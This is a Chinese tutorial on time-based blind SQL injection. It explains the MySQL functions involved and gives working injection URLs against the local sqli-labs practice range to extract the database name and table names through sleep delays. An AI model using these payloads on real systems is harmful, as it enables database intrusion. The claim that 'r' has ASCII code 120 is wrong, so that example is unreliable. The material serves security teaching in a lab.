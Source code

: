 # 基于时间的SQL盲注 - 延时注入

**知识储备：**

sleep（）：                                     *Sleep* 函数可以使计算机程序（进程，任务或线程）进入休眠

if（）：                                           *i f* 是 计算机编程语言一个关键字，分支结构的一种

mid(a,b,c):                                      从b开始，截取a字符串的c位

substr(a,b,c)：                                从b开始，截取字符串a的c长度

left(database(),1),database() :         left(a,b)从左侧截取a的前b位

length(database())=8 ：                 判断长度

ord=ascii ascii(x)=100：                判断x的ascii值是否为100

在不使用sleep下查询数据所需要的时间：0.03秒

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/86721e1e6625491b89f6de0fd7c8189f.png)

使用sleep可以使查询数据休眠指定时间

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/f3fd6f2e63db44c8adb5d1f84c7150e6.png)

if（a,b,c）：可以理解在java程序中的三目运算符，a条件成立 执行b, 条件不成立，执行c

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/3705cd9bfb4e4b10ae8a8f81712c8c09.png)的

使用if与sleep结合使用：![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/c7279f60359d4778aa443db53705b252.png)

达到延时数据显示，从而通过数据显示的时间判断数据对错!

使用靶场less-2来实现延时注入：

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1 0and sleep(if(database()='test',0,5))
```

由于靶场使用的数据库是security,于是会加载五秒钟,这样可以判断出有回显效果。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/c48403abd1ff4026a2a9485290321fa7.png)

可以通过length（）来判断数据库的长度

能通过web网页加载时间来判断数据库名的长度是否为8,由于长度是8，所以加载了五秒钟

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1 and sleep(if(length(database())=8,5,0))
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/b1de1ad243a04e6d952ca86f0b394a90.png)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/4f36b025da8041809ae05b5948ae6ec3.png)

mid（）使用：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/44847cfea0264c508384528490bf677e.png)

substr()函数
Substr()和substring()函数实现的功能是一样的，均为截取字符串。

string substring(string, start, length)
string substr(string, start, length)
参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。

substr()函数使用：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/f10a155fd6cf45a2a0d88159c51dc414.png)

Left()函数

Left()得到字符串左部指定个数的字符

Left ( string, n ) string为要截取的字符串，n为长度。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/5fc2512b47444fd4a531725e7503a08f.png)

通过以上函数可以来判断数据信息

也可以通过mid去截取当前网页所使用的数据库名的第一个字符是否为t，若不为t，则需要加载五秒钟。

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1 and sleep(if(mid(database(),1,1)='t',0,5))
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/8f63d5b742564ae18fda98666bc7df98.png)

推荐使用ASCII码

1.防止引号 ‘  “ 转义,防止魔术引号

2.方便以后工具的使用

使用ascii函数（）

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/6eea9e36b99d426184f938a0d29d5c85.png)

结合场景使用：

select * from t1 where id=1 and if(ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=120,sleep(3),0);

该sql对应的sql注入语句

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1 and if(ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=120,sleep(3),0);
```

由于查找到当前数据库第一个表是referers,所以第一个字符r的ascii码是120,于是会休眠加载三秒。

![image-20240716173210315](4.3SQL注入之延时注入/image-20240716173210315.png)	

这条sql也是同理,因为substr等价mid函数

select * from t1 where id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=116,sleep(2),0);







